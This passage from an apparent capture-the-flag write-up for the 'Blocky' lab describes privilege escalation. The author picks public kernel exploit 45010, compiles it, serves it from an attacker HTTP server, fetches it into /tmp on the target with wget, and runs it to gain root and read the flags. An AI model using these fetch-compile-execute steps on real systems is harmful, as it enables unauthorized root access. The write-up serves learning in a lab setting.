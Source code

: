 There are quite a few to look at. The best contender is 45010 since the comments in the source file say it has been tested on the exact kernel version the target is running. 

```
...
Tested on Ubuntu 16.04 with the following Kernels
4.4.0-31-generic
4.4.0-62-generic
4.4.0-81-generic
4.4.0-116-generic
4.8.0-58-generic
4.10.0.42-generic
4.13.0-21-generic
...
```

Next step is to cross compile it, upload it, and execute it:

```bash
# execute on kali:
searchsploit -m 45010
gcc 45010.c -o 45010
python3 -m http.server 8080
# execute as www-data in target shell
cd /tmp
wget http://10.10.14.23:8080/45010 
chmod +x 45010
./45010
```

![root](./blocky/root.png)

Nice! with that, both `user.txt` and `root.txt` can be found:

![flags](./blocky/flags.png)

